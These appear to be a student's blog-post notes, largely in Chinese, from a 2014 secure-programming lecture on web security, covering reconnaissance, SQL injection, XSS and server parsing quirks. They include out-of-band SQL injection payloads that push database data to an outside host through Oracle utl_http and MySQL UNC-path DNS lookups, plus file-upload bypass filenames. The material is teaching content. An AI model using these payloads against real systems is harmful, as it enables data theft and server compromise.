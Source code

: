 ```yaml
---
layout: post
title: 'Secure Programming 2014-12-16'
category: note
slug: secure-programming-20141216
---
```

2014/12/16 Secure Programming Class Note

今天的課程請到 Orange Tsai 大大，講題為 Web Security。

-  三大面向（交集：思路）
   -  技術
   -  經驗
   -  技巧

[SQL Injection 練習網站][1]

## Injection Flaw

-  SQL injection
-  cross site script
-  code injection
-  LDAP injection
-  XPATH injection
-  command injection

## 資訊搜集

-  Web Fingerprints
   -  wappalyzer, whatweb, recon-ng
-  經驗
   -  Header
   -  Python 遇到錯的編碼容易掛掉
   -  錯誤頁面
   -  Google
      -  "site:www.nctu.edu.tw ext:php"
   -  Strust2
      -  ?actionError=1
   -  RESTful
      -  `http://xxxx/show/id/1`
      -  `http://xxxx/show.php?id=1`
-  Dictionary Attack
   -  路徑
   -  /admin
   -  /phpmyadmin
   -  /sourcecode.zip

## SQL Injection

-  Union based
-  Error based
-  Blind based
-  Time based
-  Out of band（讓 database 把東西丟出來）
   -  Oracle
      -  `request.utl_http('http://orange.tw/'\|\|(select user from dual))`
   -  MySQL (along with Windows)
      -  UNC path (\\127.0.0.1\c$)
      -  load_file(concat('\\\\',version(),'.orange.tw\cxx'))
         -  5.1.3.orange.tw
      -  dnslogger -> skullsecurity nbtools

## Cross Site Scripting (XSS)

-  <http://pwn.orange.tw>
-  svg onload
-  Tweetdeck XSS Emoji

## PHP 語言鬆散特性

-  Wordpress 漏洞
-  2014 台大學生會長選舉網站 preg_match() === 0
-  Apache feature
   -  "hacker.php.xxx" works
-  Nginx + PHP (舊版)
   -  又稱 Nginx 文件解析漏洞（但其實不是 Nginx 的漏洞）
      -  圖檔嵌入 PHP code
      -  big.jpg/.php
      -  <http://pastebin.com/robots.txt>
         -  Content-Type = text/plain
      -  <http://pastebin.com/robots.txt/a.php>
         -  Content-Type = text/html
-  IIS + ASP (IIS 6 以下)
   -  分號 parsing 錯誤
      -  "xxx.asp;a.jpg"
   -  名稱為 ".asp" 結尾的 directory 其下的檔案都會被當成 ASP 來執行
      -  /a.asp/avatar.jpg 當成 asp 執行
-  Java
   -  sessioin fixation
   -  "1.jsp" 不可執行但 "1.jsp;" 可以

## Tools

-  Firefox (OSWASP mantra)
   -  Cookie Manageer
   -  FoxyProxy
   -  HackBar
   -  Modify Headers
      -  Include shellshock testing each HTTP request
   -  Tamper Data
   -  Wappalyzer
   -  X-Forwarded-For
      -  127.0.0.1
-  Burp Suite

[1]: http://sqli.exp.tw


